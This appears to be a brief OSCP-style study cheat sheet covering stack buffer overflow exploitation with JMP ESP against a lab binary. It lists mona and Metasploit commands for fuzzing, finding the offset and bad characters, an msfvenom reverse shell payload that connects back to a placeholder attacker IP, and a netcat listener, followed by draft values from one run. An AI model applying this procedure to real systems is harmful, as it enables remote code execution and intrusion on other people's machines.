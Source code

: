 ## BOF + JMP ESP quickly

1. run imunity as admin

2. open oscp.exe

3. add mona to path: `!mona config -set workingfolder c:\mona\%p`

4. run fuzzer.py

5. generate pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <fuzzer length + 400>` and place it in payload variable in exploit.py

6. crash the app. find the EIP addr/offset: `!mona findmsp -distance <fuzzer length + 400>` then set offset variable in exploit.py ("EIP contains normal pattern : ... (offset XXXX)")

7. generate badchars: `!mona bytearray -b "\x00"`

8. find bachars :
    run badchar.py and place it in payload variable
    run exploit.py crash the vulnerable app
    `!mona bytearray -b "\x00"` 
    `!mona compare -f C:\mona\oscp\bytearray.bin -a < ESP address>`
    ne prendre en compte que les premiers chars d'une suite

9. find jmp esp: `!mona jmp -r esp -cpb "\x00\x<badchars>"` and set rtn variable in exploit.py

10. generate payload for exploit.py `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x<badchars>" -f c`

11. set pading in exploit.py: `padding = "\x90" * 16`

12. set nc listenet and run exploit.py




### draft:

Fuzzing crashed at 1000 bytes

offset: 537



bad char 00 01 02 03 04 a0 01 ad ae be bf de df ef f0

\x00\x08\x2c\xad


\x00\x23\x3c\x83\xba

JMP ESP: 004012D0

\x00\xa0\xad\xbe\xde\xef
